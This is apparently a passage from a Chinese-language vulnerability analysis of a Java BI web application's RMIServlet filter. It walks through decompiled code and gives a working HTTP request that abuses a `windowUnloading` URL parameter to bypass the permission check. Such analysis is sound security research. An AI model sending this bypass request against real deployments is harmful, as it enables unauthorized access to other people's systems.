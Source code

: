 ```java
            	String[] decode = RMICoder.decode(content);
            	className = decode[0];
            	methodName = decode[1];
            	params = decode[2];
            	httpRequest.setAttribute("request_encoded", Boolean.TRUE); // 进行编码
          } else {
            	Map<String, String> map = HttpUtil.parseQueryString(content);
            	className = (String)map.get("className");
            	methodName = (String)map.get("methodName");
            	params = (String)map.get("params");
          }
      }
      if (FilterUtil.needToCheck(className, methodName) && (!"true".equals(session.getAttribute("is_config_login")) || !this.monitorInvoke(className, methodName))) {...}
      filterchain.doFilter(httpRequest, httpResponse);
}
```

相较于v8版本，这一版主要对RMIServlet路径加入了`windowUnloading`参数判断。第一个if主要是获取请求参数。假如url为`http://ip:port?windowUnloading=&xxx`。那么`httpRequest.getQueryString();`获取到的就是`windowUnloading=&xxx`。即`params`值`windowUnloading=&xxx`，`content`值为`xxx`。然后再从content中获取`className`和`methodName`，如果这两个字段不存在，就对content整体进行解密来获取。如果存在就直接获取字段后的值。

后续会对`className`和`methodName`用`needToCheck()`方法进行校验。`needToCheck()`方法参考v8，有一些小差别，但基本差不多。

那么构造方式就类似v8的权限绕过，只是不用`encode`，而是构造`windowUnloading`

```
POST /vision/RMIServlet?windowUnloading=&%7a%44%70%34%57%70%34%67%52%69%70%2b%69%49%70%69%47%5a%70%34%44%52%77%36%2b%2f%4a%56%2f%75%75%75%37%75%4e%66%37%4e%66%4e%31%2f%75%37%31%27%2f%4e%4f%4a%4d%2f%4e%4f%4a%4e%2f%75%75%2f%4a%54 HTTP/1.1
Host: ip

className=UserService&methodName=isLogged&params=[]
```

解密后如下

```
UserService
checkVersion
["2023-03-31 18:56:53"]
```

### 注解扫描

web.xml中有如下的监听器

```xml
<listener>
   <listener-class>smartbix.web.SmartbiXContextLoadListener</listener-class>
</listener>
```

跟进监听器类中的代码。如果从`SmartbiXStartupServlet`获取的Servlet不为空，就添加一个路由`/smartbix/api/*`。
